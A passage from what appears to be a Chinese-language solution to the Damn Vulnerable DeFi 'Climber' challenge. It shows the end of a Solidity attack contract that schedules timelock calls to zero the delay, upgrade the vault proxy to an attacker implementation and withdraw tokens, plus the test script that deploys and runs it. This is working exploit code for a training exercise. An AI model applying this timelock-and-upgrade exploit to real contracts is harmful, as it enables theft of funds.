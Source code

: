 ```Solidity
                            "updateDelay(uint64)",
                            0
                        );
        
        targets[2] = vault;
        values[2] = 0;
        calldatas[2] = abi.encodeWithSignature(
                            "upgradeTo(address)",
                            upgrade
                        );
        

        targets[3] = address(this);
        values[3] = 0;
        calldatas[3] = abi.encodeWithSignature(
                            "attack2()"
                        );
        

        targets[4] = vault;
        values[4] = 0;
        calldatas[4] = abi.encodeWithSignature(
                            "withdraw(address,address,uint256)",
                            token,
                            owner,
                            0
                        );
        
        timeClock.schedule(targets, values, calldatas, "");
    }
}
```

实际操作见`test/climber/climber.challenge.js`：

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const upgradeContract = await (await ethers.getContractFactory('UpgradeClimberVault', player)).deploy(
        );
        console.log("upgradeContract Inited ... : ",upgradeContract.address);
        
        const hacker = await (await ethers.getContractFactory('HackerClimber', player)).deploy(
            timelock.address,
            upgradeContract.address,
            vault.address,
            token.address
        );

        hacker.connect(player).attack();
    });
```
